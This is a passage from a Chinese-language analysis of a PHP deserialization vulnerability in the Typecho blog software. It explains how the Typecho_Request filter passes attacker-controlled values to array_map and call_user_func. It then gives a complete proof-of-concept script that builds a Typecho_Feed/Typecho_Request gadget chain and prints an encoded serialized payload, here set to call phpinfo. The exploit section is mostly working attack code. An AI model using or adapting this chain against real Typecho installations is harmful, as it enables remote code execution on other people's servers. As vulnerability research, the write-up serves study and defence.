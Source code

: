 如果你对PHP语言熟悉，那么你将看到一个危险的函数，array_map和call_user_func，这两个系统内置函数将会自动为参数调用回调函数，具体来说，$filter是回调函数名字，$value是参数值，现在这个两个参数都可控。程序首先遍历类中$_filter变量，并且根据$value类型不同调用不同函数，如果$value是数组则将调用array_map，反之则将调用call_user_func到此为止，反序列化过程分析完毕（如果不明为什么可控，请接着往下看）。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](/Users/zouyanyun/Desktop/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/media/12.png)[![](https://p2.ssl.qhimg.com/t013e863f184df40b00.png)](https://p2.ssl.qhimg.com/t013e863f184df40b00.png)



## 0x02 利用方法

POC代码

```
&lt;?php
    class Typecho_Request
    `{`
        private $_params = array();
        private $_filter = array();

        public function __construct()
        `{`
            $this-&gt;_params['screenName'] = 1; // 执行的参数值
            $this-&gt;_filter[0] = 'phpinfo'; //filter执行的函数
        `}`
    `}`
    class Typecho_Feed`{`
        const RSS2 = 'RSS 2.0';
        private $_items = array();
        private $_type;
        function __construct()
        `{`
            $this-&gt;_type = self::RSS2; //进入toString内部判断条件
            $_item['author'] = new Typecho_Request(); //Feed.php文件中触发__get()方法使用的对象
            $this-&gt;_items[0] = $_item;
        `}`
    `}`
    $exp = new Typecho_Feed();
    $a = array(
        'adapter'=&gt;$exp, // Db.php文件中触发__toString()使用的对象
        'prefix' =&gt;'typecho_'
    );
    echo urlencode(base64_encode(serialize($a)));

?&gt;
```

代码执行[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](/Users/zouyanyun/Desktop/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/media/13.png)

